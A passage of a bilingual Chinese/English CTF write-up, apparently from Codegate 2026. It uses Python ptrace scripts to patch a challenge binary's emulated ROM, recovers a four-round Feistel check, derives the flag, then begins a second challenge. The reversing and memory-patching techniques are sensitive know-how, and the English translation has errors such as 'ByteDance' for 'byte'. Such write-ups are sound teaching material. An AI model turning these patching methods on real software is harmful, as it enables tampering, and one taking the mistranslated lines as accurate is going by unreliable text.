is mainly to find out where the input is written and where the program uses as the final score 

```Python
import argparse
import ctypes
import os
import signal
import struct
import subprocess
import sys
from dataclasses import dataclass

PTRACE_TRACEME = 0
PTRACE_PEEKDATA = 2
PTRACE_POKEDATA = 5
PTRACE_CONT = 7
PTRACE_SINGLESTEP = 9
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13

SIGTRAP = 5

BREAKS = {
    "pre_run": 0x40A4B8,
    "post_run": 0x40A4D2,
    "score_poll": 0x408EA7,
    "score_read3": 0x408E66,
}

class UserRegsStruct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6", use_errno=True)
libc.ptrace.argtypes = [
    ctypes.c_ulong,
    ctypes.c_ulong,
    ctypes.c_void_p,
    ctypes.c_void_p,
]
libc.ptrace.restype = ctypes.c_long

def ptrace(request, pid, addr=0, data=0):
    res = libc.ptrace(
        request,
        pid,
        ctypes.c_void_p(addr),
        ctypes.c_void_p(data),
    )
    if res == -1:
        err = ctypes.get_errno()
        raise OSError(err, os.strerror(err))
    return res

def wait_stopped(pid):
    while True:
        got, status = os.waitpid(pid, 0)
        if got != pid:
            continue
        if os.WIFSTOPPED(status):
            return os.WSTOPSIG(status), status
        if os.WIFEXITED(status):
            raise SystemExit(f"child exited with {os.WEXITSTATUS(status)}")
        if os.WIFSIGNALED(status):
            raise SystemExit(f"child signaled with {os.WTERMSIG(status)}")

def get_regs(pid):
    regs = UserRegsStruct()
    ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    return regs

def set_regs(pid, regs):
    ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))

def peek_word(pid, addr):
    return ptrace(PTRACE_PEEKDATA, pid, addr, 0) & 0xFFFFFFFFFFFFFFFF

def poke_word(pid, addr, value):
    ptrace(PTRACE_POKEDATA, pid, addr, value & 0xFFFFFFFFFFFFFFFF)

def read_mem(pid, addr, size):
    data = bytearray()
    start = addr & ~7
    end = (addr + size + 7) & ~7
    for cur in range(start, end, 8):
        data += struct.pack("<Q", peek_word(pid, cur))
    off = addr - start
    return bytes(data[off : off + size])

def write_mem(pid, addr, data):
    start = addr & ~7
    end = (addr + len(data) + 7) & ~7
    buf = bytearray()
    for cur in range(start, end, 8):
        buf += struct.pack("<Q", peek_word(pid, cur))
    off = addr - start
    buf[off : off + len(data)] = data
    for i, cur in enumerate(range(start, end, 8)):
        word = struct.unpack_from("<Q", buf, i * 8)[0]
        poke_word(pid, cur, word)

@dataclass
class Breakpoint:
    addr: int
    saved: int

def install_breakpoint(pid, addr):
    word = peek_word(pid, addr)
    patched = (word & ~0xFF) | 0xCC
    poke_word(pid, addr, patched)
    return Breakpoint(addr, word)

def restore_breakpoint(pid, bp):
    poke_word(pid, bp.addr, bp.saved)

def step_over_breakpoint(pid, bp):
    regs = get_regs(pid)
    regs.rip = bp.addr
    set_regs(pid, regs)
    restore_breakpoint(pid, bp)
    ptrace(PTRACE_SINGLESTEP, pid, 0, 0)
    sig, _ = wait_stopped(pid)
    if sig != SIGTRAP:
        raise RuntimeError(f"expected SIGTRAP while single-stepping {bp.addr:#x}, got {sig}")
    new_bp = install_breakpoint(pid, bp.addr)
    return new_bp

def continue_to_break(pid, breakpoints):
    ptrace(PTRACE_CONT, pid, 0, 0)
    sig, _ = wait_stopped(pid)
    if sig != SIGTRAP:
        raise RuntimeError(f"expected SIGTRAP, got {sig}")
    regs = get_regs(pid)
    hit_addr = regs.rip - 1
    if hit_addr not in breakpoints:
        raise RuntimeError(f"hit unexpected trap at {hit_addr:#x}")
    bp = breakpoints[hit_addr]
    return hit_addr, step_over_breakpoint(pid, bp)

def word32_array(data, count):
    out = []
    for i in range(count):
        out.append(struct.unpack_from("<I", data, i * 4)[0])
    return out

def word16_array(data, count):
    out = []
    for i in range(count):
        out.append(struct.unpack_from("<H", data, i * 4)[0])
    return out

def parse_args():
    p = argparse.ArgumentParser()
    p.add_argument("keys_hex")
    p.add_argument(
        "--breakpoint",
        action="append",
        default=["post_run"],
        help="Named breakpoint or raw hex address",
    )
    p.add_argument("--dump-m5", type=int, default=0x80, help="Dump this many m5 words")
    p.add_argument("--dump-m6", type=int, default=0x40, help="Dump this many m6 words")
    return p.parse_args()

def resolve_bp(name):
    if name in BREAKS:
        return BREAKS[name]
    return int(name, 0)

def launch_child(keys_hex):
    exe = os.path.abspath("./challenge")
    devnull = os.open(os.devnull, os.O_RDWR)

    def child():
        ptrace(PTRACE_TRACEME, 0, 0, 0)
        os.dup2(devnull, 1)
        os.dup2(devnull, 2)
        os.execv(exe, [exe, keys_hex])

    pid = os.fork()
    if pid == 0:
        try:
            child()
        finally:
            os.kill(os.getpid(), signal.SIGKILL)
    return pid

def dump_state(pid, hit_name, hit_addr):
    regs = get_regs(pid)
    obj = regs.rsp + 0x80

    def q(off):
        return struct.unpack("<Q", read_mem(pid, obj + off, 8))[0]

    m1 = q(0x3C8)
    m2 = q(0x3F0)
    m3 = q(0x418)
    m4 = q(0x440)
    m5 = q(0x468)
    m6 = q(0x490)

    print(f"== {hit_name} @ {hit_addr:#x} ==")
    print(f"rip={regs.rip:#x} rsp={regs.rsp:#x} rbp={regs.rbp:#x}")
    print(f"obj={obj:#x}")
    print(f"m1={m1:#x} m2={m2:#x} m3={m3:#x} m4={m4:#x} m5={m5:#x} m6={m6:#x}")

    m5_words = word16_array(read_mem(pid, m5, args.dump_m5 * 4), args.dump_m5)
    m6_words = word16_array(read_mem(pid, m6, args.dump_m6 * 4), args.dump_m6)

    print("m5_words:")
    for i in range(0, len(m5_words), 8):
        chunk = m5_words[i : i + 8]
        text = " ".join(f"{x:04x}" for x in chunk)
        print(f"{i:03x}: {text}")

    print("m6_words:")
    for i in range(0, len(m6_words), 8):
        chunk = m6_words[i : i + 8]
        text = " ".join(f"{x:04x}" for x in chunk)
        print(f"{i:03x}: {text}")

if __name__ == "__main__":
    args = parse_args()
    pid = launch_child(args.keys_hex)
    wait_stopped(pid)

    breakpoints = {}
    names_by_addr = {}
    for name in args.breakpoint:
        addr = resolve_bp(name)
        breakpoints[addr] = install_breakpoint(pid, addr)
        names_by_addr[addr] = name

    try:
        while breakpoints:
            hit_addr, new_bp = continue_to_break(pid, breakpoints)
            breakpoints[hit_addr] = new_bp
            dump_state(pid, names_by_addr.get(hit_addr, hex(hit_addr)), hit_addr)
            if len(names_by_addr) == 1:
                break
    finally:
        try:
            os.kill(pid, signal.SIGKILL)
        except ProcessLookupError:
            pass
```

脚本的作用是：

The function of the script is: 

\- 用 ptrace 挂住 challenge

Attach to the challenge using ptrace

\- 在关键断点处读寄存器和 SoC 对象

Read registers and SoC objects at critical breakpoints 

\- 读出 RAM / ROM backing store

最后确认出两个最关键的地址：

Finally, two most critical addresses were identified:

- 输入起始地址：0x026A

  Input start address: 0x026A

- 分数地址：0x0268

  Score Address: 0x0268

并且拿到了宿主侧的内存映射：

And obtained the memory map on the host side: 

- obj + 0x468 -> RAM backing，记作 m5
- obj + 0x468 -> RAM backing, denoted as m5
- obj + 0x490 -> ROM backing，记作 m6

目标 16-bit word 在宿主侧不是按 2 字节紧凑存的，而是每个 word 对应一个 4 字节 slot，低 16 位有效。

The target 16-bit word is not stored compactly in 2 ByteDance on the host side, but each word corresponds to a 4-ByteDance slot, with the lower 16 bits being valid. 

映射关系是：目标地址 0x0200 + 2*i  <->  m5[i]

The mapping relationship is: target address 0x0200 + 2*i <-> m5[i] 

因此：0x0268 -> m5[0x34]   0x026A -> m5[0x35]

Therefore: 0x0268 -> m5[0x34]   0x026A -> m5[0x35]

到这里，整个题的外层壳就拆开了。接下来只要想办法影响 ROM 内部的校验逻辑，让它最终把 0x1337 写到 0x0268 即可。

By now, the outer shell of the entire problem has been disassembled. Next, we just need to find a way to influence the internal verification logic of the ROM so that it ultimately writes 0x1337 to 0x0268. 

#### 阶段 2：把固件裁成单 block oracle | Phase 2: Cut the firmware into single block oracle

ROM 里有一段常量字符串：99 little bugs in the code, 99 little bugs. Take one down, patch it around, 127 little bugs in the code.

它一共 104 字节，刚好等于 13 个 8 字节 block。这和用户输入的 13 个 64-bit block 完全对齐，所以非常像“常量 block 和输入 block 一一比较”的结构。

It has a total of 104 bytes, which is exactly equal to 13 8-byte blocks. This is perfectly aligned with the 13 64-bit blocks input by the user, so it is very similar to the structure of "comparing constant blocks with input blocks one by one". 

用这个脚本来验证：

Use this script to verify: 

```Python
import argparse
import struct

from runtime_dump import (
    BREAKS,
    continue_to_break,
    get_regs,
    install_breakpoint,
    launch_child,
    read_mem,
    wait_stopped,
    word16_array,
    write_mem,
)

# ROM offsets of startup immediates.
ROM_COUNT_IMM_OFF = 0x6C   # mov #0x000d, 0x001a(sp)
ROM_CONST_PTR_OFF = 0x52  # mov #0xc64a, 0x0010(sp)
BYTECODE_OFF = 0x6B3
ROUND_REGION_OFF = BYTECODE_OFF + 0x26
ROUND_REGION_LEN = 0x16

def parse_words(text):
    parts = [p.strip() for p in text.split(",") if p.strip()]
    if len(parts) != 4:
        raise SystemExit("need exactly four 16-bit words")
    return [int(p, 0) & 0xFFFF for p in parts]

def pad_keys(block_hex):
    if len(block_hex) != 16:
        raise SystemExit("block hex must be 16 hex chars")
    return block_hex + ("00" * 8 * 12)

def parse_ops(text):
    return [int(p, 0) & 0xFF for p in text.split(",") if p.strip()]

def obj_and_ptrs(pid):
    regs = get_regs(pid)
    obj = regs.rsp + 0x80

    def q(off):
        return struct.unpack("<Q", read_mem(pid, obj + off, 8))[0]

    return q(0x468), q(0x490)

def write_rom_word(pid, m6, off, value):
    write_mem(pid, m6 + (off // 2) * 4, struct.pack("<I", value & 0xFFFF))

def write_rom_bytes(pid, m6, off, data):
    start = off // 2
    end = (off + len(data) + 1) // 2
    host = bytearray(read_mem(pid, m6 + start * 4, (end - start) * 4))
    rom = bytearray()
    for i in range(0, len(host), 4):
        rom += host[i : i + 2]
    inner = off - start * 2
    rom[inner : inner + len(data)] = data
    patched = bytearray()
    for i in range(0, len(rom), 2):
        patched += rom[i : i + 2]
        patched += b"\x00\x00"
    write_mem(pid, m6 + start * 4, patched)

def m5_addr(index):
    return 0x200 + index * 2

def build_round_region(ops, split_after, split_nops):
    region = bytearray()
    for i, op in enumerate(ops):
        region += bytes([0x0C, op])
        if split_after is not None and i + 1 == split_after:
            region += b"\x0F" * split_nops
    if len(region) > ROUND_REGION_LEN:
        raise SystemExit("custom round region too long")
    region += b"\x0F" * (ROUND_REGION_LEN - len(region))
    return bytes(region)

def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--a", required=True, help="four 16-bit words")
    ap.add_argument("--block", required=True, help="first key block as 16 hex chars")
    ap.add_argument("--const-index", type=lambda x: int(x, 0), default=0x80, help="m5 word index for custom A")
    ap.add_argument("--ops", default="0,1,2,3,4,5,6,7")
    ap.add_argument("--split-after", type=int, default=4)
    ap.add_argument("--split-nops", type=int, default=6)
    args = ap.parse_args()

    a_words = parse_words(args.a)
    keys_hex = pad_keys(args.block)
    ops = parse_ops(args.ops)
    round_region = build_round_region(ops, args.split_after, args.split_nops)

    pid = launch_child(keys_hex)
    wait_stopped(pid)
    bps = {a: install_breakpoint(pid, a) for a in [BREAKS["pre_run"], BREAKS["post_run"]]}

    hit, bps[BREAKS["pre_run"]] = continue_to_break(pid, bps)
    if hit != BREAKS["pre_run"]:
        raise SystemExit(f"unexpected first break at {hit:#x}")

    m5, m6 = obj_and_ptrs(pid)

    # Store custom constants at chosen RAM address.
    const_bytes = b"".join(struct.pack("<I", w) for w in a_words)
    write_mem(pid, m5 + args.const_index * 4, const_bytes)

    # Run exactly one block and source constants from our chosen RAM buffer.
    write_rom_word(pid, m6, ROM_COUNT_IMM_OFF, 1)
    write_rom_word(pid, m6, ROM_CONST_PTR_OFF, m5_addr(args.const_index))
    write_rom_bytes(pid, m6, ROUND_REGION_OFF, round_region)

    hit, bps[BREAKS["post_run"]] = continue_to_break(pid, bps)
    if hit != BREAKS["post_run"]:
        raise SystemExit(f"unexpected second break at {hit:#x}")

    out_words = word16_array(read_mem(pid, m5, 16), 4)
    score = word16_array(read_mem(pid, m5 + 0x34 * 4, 4), 1)[0]

    print("out:", " ".join(f"{x:04x}" for x in out_words))
    print("score:", f"{score:04x}")

if __name__ == "__main__":
    main()
```

这个脚本做了三件关键事情：

This script does three key things: 

1. 把 block 数从 13 改成 1

   Change the number of blocks from 13 to 1

2. 把常量指针改到自己控制的 RAM

   Move the constant pointer to the RAM under your own control

3. 把轮函数区域改成指定的 opcode 序列

   Change the round function area to the specified opcode sequence

##### 阶段 2 的关键发现1： | Key Finding 1 of Phase 2:

原始字节码里会连续调用 8 个自定义轮函数，但用单 block oracle 可以证明：

The original bytecode will continuously call 8 custom round functions, but it can be proven using a single block oracle that: 

前 4 轮决定最终比较值，后 4 轮不影响最终校验

The first 4 rounds determine the final comparison value, and the last 4 rounds do not affect the final verification 

拿第 0 个常量 block 举例：

Take the 0th constant block as an example: 

3939 6c20 7469 6c74

在 zero key 下，前缀轮输出依次为：

Under the zero key, the prefix wheel outputs are as follows in sequence:

1 轮：7469 6c74 b810 4d96

Round 1: 7469 6c74 b810 4d96

2 轮：b810 4d96 9487 fe19

2 rounds: b810 4d96 9487 fe19

3 轮：9487 fe19 daf6 9123

4 轮：daf6 9123 0807 7455

4 Wheels: daf6 9123 0807 7455

而真实 challenge 对应 block0 的输出也是：daf6 9123 0807 7455，所以这题真正需要逆的并不是 8 轮，而是前 4 轮。

And the output of block0 corresponding to the real challenge is also: daf6 9123 0807 7455, so what this problem really needs to invert is not 8 rounds, but the first 4 rounds. 

##### 阶段 2 的第二个发现：前 4 轮是一个 Feistel | Second finding in Phase 2: The first 4 rounds are a Feistel

继续做单轮分析，可以把每一轮写成：(L, R) -> (R, L xor g_i(R xor K_i))

Continuing with the single-round analysis, each round can be written as: (L, R) -> (R, L xor g_i(R xor K_i))

而且子密钥使用方式非常规整：

Moreover, the way subkeys are used is highly regular:

- 第 0、2 轮用同一个 32-bit 子密钥 Ke
- The same 32-bit subkey Ke is used in rounds 0 and 2 
- 第 1、3 轮用同一个 32-bit 子密钥 Ko
- The same 32-bit subkey Ko is used in rounds 1 and 3 

如果一个 64-bit 输入 block 按 16-bit 小端拆成：[w0, w1, w2, w3]

If a 64-bit input block is split into [w0, w1, w2, w3] in 16-bit little-endian format 

那么：

Then:

Ke = w0 | (w1 << 16)

Ko = w2 | (w3 << 16)

也就是说，一个 64-bit 输入 block 本质上就是两半 32-bit 子密钥

That is to say, a 64-bit input block is essentially two halves of 32-bit subkeys

#### 阶段 3：用 extract_gtables.py 把 g0..g3 提出来 |  Phase 3: Use extract_gtables.py to extract g0..g3 

前面已经知道每一轮的形式是：(L, R) -> (R, L xor g_i(R xor K_i))

As previously known, the form of each round is: (L, R) -> (R, L xor g_i(R xor K_i)) 

接下来问题就变成：g_i 到底是什么。

Next, the question becomes: what exactly is g_i?

继续用单 block oracle 做实验后，可以发现每个 g_i 都不是黑盒，而是按字节异或分解：

After continuing to experiment with the single block oracle, it can be found that each g_i is not a Black box, but is decomposed by ByteDance XOR: 

g_i(x) = c_i xor T_i,0[x0] xor T_i,1[x1] xor T_i,2[x2] xor T_i,3[x3]

其中 x0..x3 是 x 的四个字节。用这个脚本来系统化提表

Where x0.. x3 are the four ByteDances of x. use this script to systematically submit the table

```python
import argparse
import concurrent.futures
import pickle
import subprocess
from pathlib import Path

def query(round_idx, byte_idx, value):
    words = [0, 0, 0, 0]
    if byte_idx < 2:
        words[2] = value << (8 * byte_idx)
    else:
        words[3] = value << (8 * (byte_idx - 2))
    a = ",".join(hex(x) for x in words)
    out = subprocess.check_output(
        [
            "python3",
            "accurate_block_oracle.py",
            "--a",
            a,
            "--block",
            "0000000000000000",
            "--ops",
            str(round_idx),
            "--split-after",
            "1",
            "--split-nops",
            "0",
        ],
        text=True,
    )
    line = [x for x in out.splitlines() if x.startswith("out:")][0]
    ws = [int(x, 16) for x in line.split()[1:]]
    return ws[2] | (ws[3] << 16)

def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--workers", type=int, default=8)
    ap.add_argument("--out", default="gtables.pkl")
    args = ap.parse_args()

    results = {}
    jobs = []
    with concurrent.futures.ThreadPoolExecutor(max_workers=args.workers) as ex:
        for rnd in range(4):
            for bidx in range(4):
                for val in range(256):
                    jobs.append((rnd, bidx, val, ex.submit(query, rnd, bidx, val)))

        total = len(jobs)
        done = 0
        for rnd, bidx, val, fut in jobs:
            key = (rnd, bidx)
            results.setdefault(key, [None] * 256)
            results[key][val] = fut.result()
            done += 1
            if done % 128 == 0 or done == total:
                print(f"{done}/{total}")

    out = {
        "constants": {},
        "deltas": {},
    }
    for rnd in range(4):
        c = results[(rnd, 0)][0]
        out["constants"][rnd] = c
        for bidx in range(4):
            arr = []
            for val in range(256):
                arr.append(results[(rnd, bidx)][val] ^ c)
            out["deltas"][(rnd, bidx)] = arr

    with open(args.out, "wb") as f:
        pickle.dump(out, f)
    print("saved", args.out)

if __name__ == "__main__":
    main()

```

脚本思路非常直接：固定 key 为 0，每次只让某一轮工作，并且让常量块里只有某一个字节非 0，然后记录输出右半边 32-bit。

The script idea is very straightforward: fix the key to 0, let only one round work each time, ensure that only one ByteDance in the constant block is non-zero, and then record the right half 32-bit of the output. 

提表伪代码如下

The pseudocode for the table extraction is as follows 

```python
for round_idx in [0, 1, 2, 3]:
    for byte_pos in [0, 1, 2, 3]:
        for val in range(256):
            A = [0, 0, 0, 0]
            把 val 放进 A 的第 byte_pos 个字节

            out = oracle(
                const_block = A,
                key_block = 0,
                ops = [round_idx],
                split_after = 1,
                split_nops = 0
            )

            table[round_idx][byte_pos][val] = out 的右半边 32-bit
```

总共查询次数是：4 * 4 * 256 = 4096，最后得到的就是 gtables.pkl。

The total number of queries is: 4 * 4 * 256 = 4096, and finally we get gtables.pkl. 

提完表以后，每个 g_i 不只可以按字节写，还可以进一步看成：g_i(x) = c_i xor Low_i[x_low16] xor High_i[x_high16]

After the table is extracted, each g_i can not only be written by ByteDance, but can also be further regarded as: g_i(x) = c_i xor Low_i[x_low16] xor High_i[x_high16] 

其中：

Where: 

- Low_i 负责低 16 位
- Low_i is responsible for the lower 16 bits
- High_i 负责高 16 位
- High_i is responsible for the high 16 bits

实测这两个 65536 项映射都没有冲突，所以给定 y 后，可以用 16-bit + 16-bit meet-in-the-middle 去恢复 x = g_i^-1(y)。

After actual testing, neither of these two 65536-entry mappings has conflicts, so given y, we can use 16-bit + 16-bit meet-in-the-middle to recover x = g_i^-1(y). 

#### 阶段 4：把 13 个 block 压成一个统一的固定点问题 | Phase 4: Compress 13 blocks into a unified fixed-point problem

设某个常量 block 的左右半边是：(L0, R0)

Suppose the left and right halves of a certain constant block are: (L0, R0) 

校验通过就意味着：

Passing the verification means:

E_(Ke, Ko)(L0, R0) = (L0, R0)

把 4 轮 Feistel 中的 key xor 吸收到状态变量里，可以推出一个非常漂亮的结论：

By absorbing the key xor in the 4-round Feistel into the state variable, we can derive a very elegant conclusion: 

如果存在一组全局的 zero-key 固定点 (Y, X)，那么每个 block 的正确子密钥都可以直接写成：

If there exists a set of global zero-key fixed points (Y, X), then the correct subkey for each block can be directly written as: 

Ke = R0 xor X

Ko = L0 xor Y

这说明 13 个 block 不是 13 个独立未知量问题，而是共享同一组全局参数 X, Y。

This indicates that the 13 blocks are not 13 independent unknowns, but share the same set of global parameters X and Y. 

于是整题被压缩成：求 X, Y。

Thus, the entire problem is compressed into: find X and Y.

最后求解使用的脚本是：

The script used for the final solution is: 

```python
import pickle
import struct
from pathlib import Path

def u32(x):
    return x & 0xFFFFFFFF

class GPerm:
    def __init__(self, const, t0, t1, t2, t3):
        self.const = const
        self.t0 = t0
        self.t1 = t1
        self.t2 = t2
        self.t3 = t3

        self.low = [t0[a] ^ t1[b] for a in range(256) for b in range(256)]
        self.high = [t2[a] ^ t3[b] for a in range(256) for b in range(256)]
        self.low_map = {v: i for i, v in enumerate(self.low)}

    def __call__(self, x):
        return u32(
            self.const
            ^ self.t0[(x >> 0) & 0xFF]
            ^ self.t1[(x >> 8) & 0xFF]
            ^ self.t2[(x >> 16) & 0xFF]
            ^ self.t3[(x >> 24) & 0xFF]
        )

    def inv(self, y):
        t = u32(y ^ self.const)
        found = None
        for hi, hv in enumerate(self.high):
            lo = self.low_map.get(t ^ hv)
            if lo is None:
                continue
            x = (
                ((lo >> 8) & 0xFF)
                | (((lo >> 0) & 0xFF) << 8)
                | (((hi >> 8) & 0xFF) << 16)
                | (((hi >> 0) & 0xFF) << 24)
            )
            if found is not None and found != x:
                raise ValueError(f"non-unique inverse for {y:08x}")
            found = x
        if found is None:
            raise KeyError(f"no inverse for {y:08x}")
        return found

def load_tables(path="gtables.pkl"):
    obj = pickle.loads(Path(path).read_bytes())
    gs = []
    for rnd in range(4):
        gs.append(
            GPerm(
                obj["constants"][rnd],
                obj["deltas"][(rnd, 0)],
                obj["deltas"][(rnd, 1)],
                obj["deltas"][(rnd, 2)],
                obj["deltas"][(rnd, 3)],
            )
        )
    return gs

def fmt32(x):
    return f"{x:08x}"

def fmt64_words(x):
    bs = struct.pack("<Q", x)
    ws = [int.from_bytes(bs[i : i + 2], "little") for i in range(0, 8, 2)]
    return " ".join(f"{w:04x}" for w in ws)

def step_xy(gs, x, y):
    g0, g1, g2, g3 = gs
    a = g0(x)
    b = g3(y)
    xn = u32(b ^ g2.inv(a))
    yn = u32(a ^ g1.inv(b))
    return xn, yn, a, b

def compose_a(gs, a):
    g0, g1, g2, g3 = gs
    b = u32(g0.inv(a) ^ g2.inv(a))
    return u32(g3.inv(b) ^ g1.inv(b))

def build_bytewise_table(fn):
    c = fn(0)
    tabs = []
    for bidx in range(4):
        arr = []
        for val in range(256):
            arr.append(u32(fn(val << (8 * bidx)) ^ c))
        tabs.append(arr)
    return c, tabs

def eval_bytewise(c, tabs, x):
    return u32(
        c
        ^ tabs[0][(x >> 0) & 0xFF]
        ^ tabs[1][(x >> 8) & 0xFF]
        ^ tabs[2][(x >> 16) & 0xFF]
        ^ tabs[3][(x >> 24) & 0xFF]
    )

def solve_fixed_point_bytewise(c, tabs):
    low = [u32(v ^ tabs[0][v & 0xFF] ^ tabs[1][(v >> 8) & 0xFF]) for v in range(1 << 16)]
    high = [
        u32((v << 16) ^ tabs[2][v & 0xFF] ^ tabs[3][(v >> 8) & 0xFF])
        for v in range(1 << 16)
    ]

    low_map = {}
    for i, val in enumerate(low):
        low_map.setdefault(val, []).append(i)

    sols = []
    for hi, val in enumerate(high):
        want = u32(c ^ val)
        for lo in low_map.get(want, []):
            sols.append(lo | (hi << 16))
    return sols

def derive_key_block(plain_words, x, y):
    l = plain_words[0] | (plain_words[1] << 16)
    r = plain_words[2] | (plain_words[3] << 16)
    ke = u32(r ^ x)
    ko = u32(l ^ y)
    return struct.pack("<I", ke) + struct.pack("<I", ko)

def string_blocks():
    s = (
        b"99 little bugs in the code, 99 little bugs. "
        b"Take one down, patch it around, 127 little bugs in the code."
    )
    out = []
    for i in range(0, len(s), 8):
        blk = s[i : i + 8]
        ws = [int.from_bytes(blk[j : j + 2], "little") for j in range(0, 8, 2)]
        out.append(ws)
    return out

def main():
    gs = load_tables()
    print("loaded tables")
    for i, g in enumerate(gs):
        print(f"g{i}(0)={fmt32(g(0))} inv(g{i}(0))={fmt32(g.inv(g(0)))}")

    c_r, tabs_r = build_bytewise_table(lambda a: compose_a(gs, a))
    print("R(0) =", fmt32(c_r))
    sols_a = solve_fixed_point_bytewise(c_r, tabs_r)
    print("fixed A count:", len(sols_a))
    for a in sols_a:
        print("A =", fmt32(a), "R(A) =", fmt32(eval_bytewise(c_r, tabs_r, a)))

    if not sols_a:
        raise SystemExit("no fixed A found")

    a = sols_a[0]
    g0, g1, g2, g3 = gs
    b = u32(g0.inv(a) ^ g2.inv(a))
    x = g0.inv(a)
    y = g3.inv(b)
    print("A =", fmt32(a))
    print("B =", fmt32(b))
    print("X =", fmt32(x))
    print("Y =", fmt32(y))

    # Sanity-check the universal equations.
    lhs1 = g2(u32(x ^ g3(y)))
    rhs1 = g0(x)
    lhs2 = g1(u32(y ^ g0(x)))
    rhs2 = g3(y)
    print("eq1:", fmt32(lhs1), fmt32(rhs1))
    print("eq2:", fmt32(lhs2), fmt32(rhs2))

    blocks = string_blocks()
    print("blocks:", len(blocks))
    key_hex = ""
    for idx, ws in enumerate(blocks):
        kb = derive_key_block(ws, x, y)
        key_hex += kb.hex()
        print(idx, "plain:", " ".join(f"{w:04x}" for w in ws), "key:", kb.hex())

    print("flag_input_hex =", key_hex)

if __name__ == "__main__":
    main()

```

##### 第一步，读入 gtables.pkl，构造 g0, g1, g2, g3 以及它们的逆函数 | Step 1: Read in gtables.pkl and construct g0, g1, g2, g3 and their inverse functions 

##### 第二步，定义： | Step 2, Definition:

Q(A) = inv_g0(A) xor inv_g2(A)

P(B) = inv_g3(B) xor inv_g1(B)

R(A) = P(Q(A))

##### 第三步，继续实验发现 R(A) 仍然可以按字节分解： | Step 3: Continuing the experiment reveals that R(A) can still be decomposed by ByteDance: 

R(A) = c xor R0[a0] xor R1[a1] xor R2[a2] xor R3[a3]

于是 A = R(A) 又能做一次 MITM。

Then A = R(A) can perform another MITM.

#### 最终结果 | Final Result

最后算出的唯一固定点是：

The only fixed point finally calculated is: 

A = 0x74844e09

B = 0xa7ce3b79

X = 0x055a4263

Y = 0x78703076

代回验证：

Substitute back for verification:

g2(X xor g3(Y)) = g0(X) = 0x74844e09

g1(Y xor g0(X)) = g3(Y) = 0xa7ce3b79

所以 X, Y 正确。

Therefore, X and Y are correct.

恢复出的最终输入为：

The recovered final input is: 

0a362e694f09501404317a6c1310120d0662396a181004105a7b7a6912555c58066238701f4404143723316011435e5843263572565f1e1d0236396d181c5008023035705659045852706d2518545c580f277a671a59040c0a2c7a71035703580c263f2b1e55501b

把这串输入喂给真实 challenge，程序输出：

Feed this input string to the real challenge, and the program outputs:

FLAG: codegate2026{0a362e694f09501404317a6c1310120d0662396a181004105a7b7a6912555c58066238701f4404143723316011435e5843263572565f1e1d0236396d181c5008023035705659045852706d2518545c580f277a671a59040c0a2c7a71035703580c263f2b1e55501b}

### OldSchool

#### **Summary**

这题的核心不是协议漏洞，而是一个“拉 ELF -> 本地求解 -> 提交答案”的批量自动化题。

The core of this problem is not a protocol vulnerability, but a batch automation problem of "pull ELF -> local solution -> submit answer". 

客户端通过 TCP 连到服务端，自定义包格式为：

The Client connects to the Server via TCP, and the custom packet format is: 

- `1 byte msgType`
- `4 bytes big-endian length`
- `payload`

消息内容是 protobuf：

The message content is Protobuf: 

```ProtoBuf
message ChallengeRequest {}

message ChallengeResponse {
  bytes binary_data = 1;
  string binary_hash = 2;
  int32 prob_index = 3;
  int32 prob_total = 4;
}

message AnswerRequest {
  string binary_hash = 1;
  string answer = 2;
}

message AnswerResponse {
  bool correct = 1;
  bool has_next = 2;
  string flag = 3;
}
```

每次发送 `ChallengeRequest`，服务端返回一个 ELF；本地求出答案后再提交 `AnswerRequest`。

Each time a `ChallengeRequest `is sent, the server level returns an ELF; the local answer is obtained and then an `AnswerRequest `is submitted.

#### **Client Reverse**

客户端主逻辑很直接：

The main logic of the Client is straightforward: 

1. 连接远端 `tcp :8080`

   Connect to Remote ` tcp:8080 `

2. 请求 challenge

   Request challenge 

3. 把收到的 `binary_data` 落盘

   Write the received `binary_data` to disk

4. 从 stdin 读入答案

   Read the answer from stdin

5. 提交答案

   Submit Answer

6. 如果 `has_next` 为真，继续下一题

   If ` has_next ` is true, proceed to the next question 

协议层有个小瑕疵：客户端 `readMsg()` 不校验返回的 `msgType`，只按预期 protobuf 直接反序列化。但实际服务端没有因此暴露出可直接利用的绕过路径，所以最后还是老老实实把 ELF 解了。

There is a minor flaw in the protocol layer: the Client `readMsg()` does not verify the returned `msgType`, but directly deserializes it according to the expected protobuf. However, the actual server did not expose a directly exploitable bypass path because of this, so in the end, we still had to honestly unpack the ELF.

#### **Binary Pattern**

抓到的 ELF 都是同一模板生成出来的，差别只在常量表。

All captured ELFs are generated from the same template, with the only difference lying in the constant table.

每个样本都会：

Each sample will: 

1. 从 `stdin` 读取 **64 字节**

   Read from `stdin` **64 ByteDance**

2. 前 4 字节做 `SHA-256`

   The first 4 bytes are used for ` SHA-256 `

3. 和 `.rodata` 里的 32 字节常量比较

   Compare the 32-byte constants in `.rodata` 

4. 如果不匹配直接 `wrong`

   If it does not match, directly ` wrong `

5. 剩下的 60 字节进入一套 key 相关的状态机和最终混淆

   The remaining 60 bytes enter a set of key-related finite-state machines and final obfuscation 

6. 最后和 `.rodata` 中另一段 60 字节常量比较

